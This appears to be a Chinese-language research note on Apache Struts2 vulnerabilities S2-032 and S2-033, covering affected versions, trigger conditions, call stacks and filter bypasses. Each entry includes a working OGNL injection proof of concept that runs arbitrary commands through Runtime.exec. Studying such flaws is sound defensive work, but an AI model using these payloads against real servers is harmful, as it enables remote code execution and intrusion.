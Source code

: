 ### [S2-032](https://cwiki.apache.org/confluence/display/WW/S2-032)

触发条件

1. Struts 2.3.20 - 2.3.28 *（Struts 2.3.20.3和2.3.24.3除外）*
1. 启用DynamicMethodInvocation *（动态方法调用）*

作用域

1. 任意action method *（改写`!`为`?method:`形式）*

底层G点

`OgnlUtil.getValue()`

    [ PoC样本 ]
        #_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,#f=@java.lang.Runtime@getRuntime().exec(#parameters.cmd[0]),#f.close  // cmd为额外请求参数，绕过"和'等特殊符号限制，如cmd=calc

    [ 关键调用栈 ]
        // 设置method
        -> org.apache.struts2.dispatcher.mapper.DefaultActionMapper.getMapping()
        -> org.apache.struts2.dispatcher.mapper.DefaultActionMapper.handleSpecialParameters()
        -> org.apache.struts2.dispatcher.mapper.ParameterAction.execute()  // 在DefaultActionMapper构造函数中定义
        -> org.apache.struts2.dispatcher.mapper.ActionMapping.setMethod()
        // 获取和调用method
        -> org.apache.struts2.rest.RestActionInvocation.invoke()
        -> com.opensymphony.xwork2.DefaultActionInvocation.invokeAction()
        -> com.opensymphony.xwork2.ognl.OgnlUtil.getValue()

特点

1. 使用`?method:`形式绕过`!`形式的特殊字符限制
1. 使用额外请求参数绕过`StringEscapeUtils.escapeEcmaScript()`和`StringEscapeUtils.escapeHtml4()`的特殊字符限制

### [S2-033](https://cwiki.apache.org/confluence/display/WW/S2-033) *（S2-032同源）*

触发条件

1. Struts 2.3.20 - 2.3.28 *（Struts 2.3.20.3和2.3.24.3除外）*
1. 启用DynamicMethodInvocation *（动态方法调用）*
1. 使用struts2-rest-plugin

作用域

1. 满足路由条件的action method *（常规的`!`形式）*

底层G点

`OgnlUtil.getValue()`

    [ PoC样本 ]
        #_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,@java.lang.Runtime@getRuntime().exec(#parameters.cmd[0]),#xx=123,#xx.toString.json?  // cmd为额外请求参数

    [ 关键调用栈 ]
        // 设置method
        -> org.apache.struts2.rest.RestActionMapper.getMapping()
        -> org.apache.struts2.rest.RestActionMapper.handleDynamicMethodInvocation()
        -> org.apache.struts2.dispatcher.mapper.ActionMapping.setMethod()
        // 获取和调用method
        -> org.apache.struts2.rest.RestActionInvocation.invoke()
        -> com.opensymphony.xwork2.DefaultActionInvocation.invokeAction()
        -> com.opensymphony.xwork2.ognl.OgnlUtil.getValue()
